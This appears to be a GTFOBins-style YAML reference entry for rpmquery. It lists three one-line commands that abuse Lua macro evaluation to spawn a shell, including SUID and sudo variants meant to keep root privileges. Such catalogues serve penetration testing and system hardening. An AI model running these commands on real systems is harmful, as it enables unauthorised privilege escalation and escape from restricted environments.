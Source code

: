 ```yaml
---
functions:
  shell:
    - code: rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
  suid:
    - code: ./rpmquery --eval '%{lua:posix.exec("/bin/sh", "-p")}'
  sudo:
    - code: sudo rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
---
```

